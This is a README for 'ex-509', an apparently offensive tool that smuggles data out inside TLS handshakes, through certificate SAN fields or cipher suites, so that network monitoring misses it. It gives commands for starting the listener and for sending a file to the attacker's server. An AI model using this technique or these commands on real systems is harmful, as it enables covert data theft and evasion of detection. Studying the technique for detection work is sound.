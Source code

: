 # ex-509
> Data exfiltration abusing x509 certificates

In order for a TLS session to be established, some data must first be exchanged between the client and server. These exfiltration techniques take advantage of this, and hide data in the TLS handshake itself. Ex-509 includes two modes of operation: certificate and cipher. In certificate mode, payload data is stored in the Subject Alternative Name (SAN) field of the client certificate. In cipher mode, data is hidden in the cipher suite of the handshake. These are both sent to the attacker's machine before an actual session is established, which makes the exfiltration harder to detect.

## Requirements
Python >= 3.6


Use the package manager [pip](https://pip.pypa.io/en/stable/) to install the required libraries.

* On both the client and server machines, [cryptography](https://pypi.org/project/cryptography/) is required for certificate generation and parsing

* On the server machine, [tlslite-ng](https://pypi.org/project/tlslite-ng/) is required for more control over the TLS handshake

## Usage
Each technique has its own standalone client and server


### Server
Start listening for connections:
```sh
python3 ex-509.py
```

To specify a custom certificate, private key, or port number:
```sh
python3 ex-509.py --cert [PATH TO CERT] --key [PATH TO KEY] --port [PORT]
```

*If no certificate is specified, one will be generated and used automatically*

### Client
Sending a file to the server:
```sh
python3 client.py -f [PATH TO FILE] -i [SERVER IP] -p [PORT]
```

## Notes
In cipher mode, the cryptography package isn't required by the client, as no certificates need to be created.

Also, due to the size limitations, when transferring a large file in cipher mode, it may be chunked up into several smaller pieces. To easily combine them use: [combine](https://github.com/adeemm/combine)